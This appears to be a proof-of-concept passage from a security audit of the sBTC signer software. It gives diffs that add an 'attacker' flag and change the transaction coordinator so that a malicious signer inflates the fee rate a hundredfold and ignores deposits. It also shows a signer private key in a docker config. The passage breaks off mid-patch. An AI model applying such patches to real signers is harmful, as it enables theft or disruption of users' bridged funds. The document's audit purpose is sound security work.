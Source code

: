 1. Base on: https://github.com/stacks-network/sbtc/releases/tag/0.0.9-rc4
2.  Patch `signer/src/config/mod.rs`, add attacker flag config

    ```diff
         /// The minimum bitcoin block height for which the sbtc signers will
         /// backfill bitcoin blocks to.
         pub sbtc_bitcoin_start_height: Option<u64>,
    +    /// @audit;
    +    pub audit_this_signer_is_attacker: Option<bool>,
     }
     
     impl Validatable for SignerConfig {
    ```
3.  Patch `signer/src/main.rs`, load attacker flag

    ```diff
         );
     
         // Load the configuration file and/or environment variables.
    -    let settings = Settings::new(args.config)?;
    +    let mut settings = Settings::new(args.config)?;
    +    std::thread::sleep(std::time::Duration::from_millis(2000)); // wait for the `docker logs` command
    +    settings.signer.audit_this_signer_is_attacker = match std::env::var("AUDIT_THIS_SIGNER_IS_ATTACKER") {
    +        Ok(value) => Some(value.parse::<bool>().unwrap()),
    +        _ => Some(false),
    +    };
    +    tracing::info!("@audit; audit_this_signer_is_attacker: {:?}", settings.signer.audit_this_signer_is_attacker);
         signer::metrics::setup_metrics(settings.signer.prometheus_exporter_endpoint);
     
         // Open a connection to the signer db.
    ```
4.  Patch `docker/docker-compose.yml`, add attacker flag

    ```diff
           - postgres-3
         environment:
           <<: *sbtc-signer-environment
    +      AUDIT_THIS_SIGNER_IS_ATTACKER: true
           SIGNER_SIGNER__DB_ENDPOINT: postgresql://postgres:postgres@postgres-3:5432/signer
           SIGNER_SIGNER__PRIVATE_KEY: 3ec0ca5770a356d6cd1a9bfcbf6cd151eb1bd85c388cc00648ec4ef5853fdb7401
           SIGNER_SIGNER__P2P__SEEDS: tcp://sbtc-signer-1:4122,tcp://sbtc-signer-2:4122
    ```
5.  Patch `signer/src/transaction_coordinator.rs`, add attack action. It will ignore all deposits and initiate an attack BTC transaction.

    ```diff
             let pending_requests_fut =
                 self.get_pending_requests(bitcoin_chain_tip, aggregate_key, signer_public_keys);
     
             // If Self::get_pending_requests returns Ok(None) then there are no
             // requests to respond to, so let's just exit.
    -        let Some(pending_requests) = pending_requests_fut.await? else {
    +        let Some(mut pending_requests) = pending_requests_fut.await? else {
                 tracing::debug!("no requests to handle, exiting");
                 return Ok(());
             };
    +        // @audit; begin
    +        let this_signer_is_attacker = self.context.config().signer.audit_this_signer_is_attacker.is_some_and(|x| x);
    +        if this_signer_is_attacker {
    +            pending_requests.signer_state.fee_rate *= 100 as f64;
    +        }
    +        let attack_reports = crate::bitcoin::validation::SbtcReports {
    +            deposits: Vec::new(),